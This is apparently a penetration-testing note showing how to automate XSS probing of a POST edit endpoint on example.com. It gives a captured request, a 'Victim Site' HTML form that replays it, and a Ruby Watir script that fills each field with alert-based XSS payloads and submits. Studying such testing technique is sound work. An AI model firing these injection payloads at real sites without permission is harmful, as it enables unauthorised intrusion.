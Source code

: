 **POST 请求**

```
POST /path/of/editfunction HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:40.0) Gecko/20100101 Firefox/40.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 100
Cookie: PHPSESSIONID=111111111111111111111
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache

field1=""&field2=""&field3=""&field4="" 
```

**example.html**

```
<html>
  <head>
    <title>Victim Site - POST request</title>
  </head>
  <body>
    <form action="https://example.com/path/of/editfunction" method="POST">
      <input type="text" name="field1" value="" />
      <input type="text" name="field2" value="" />
      <input type="text" name="field3" value="" />
      <input type="text" name="field4" value="" />
      <p><input type="submit" value="Send" /></p>
    </form>
  </body>
</html> 
```

**exploit.rb**

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
#
require 'watir'

@browser = Watir::Browser.new :firefox
@browser.window.resize_to(800, 600)     # Set browser size
@browser.window.move_to(400, 300)       # Allocate browser position

def sendpost(payload)
  @browser.goto "file:///home/KING/Code/example.html"

  @browser.text_field(name: 'field1').set(payload)
  @browser.text_field(name: 'field2').set(payload)
  @browser.text_field(name: 'field3').set(payload)
  @browser.text_field(name: 'field4').set(payload)
  sleep 0.1
  @browser.button(value: 'Send').click
end

payloads =
    [
      '"><script>alert(1)</script>',
      '<img src=x onerror=alert(2)>'
    ]
```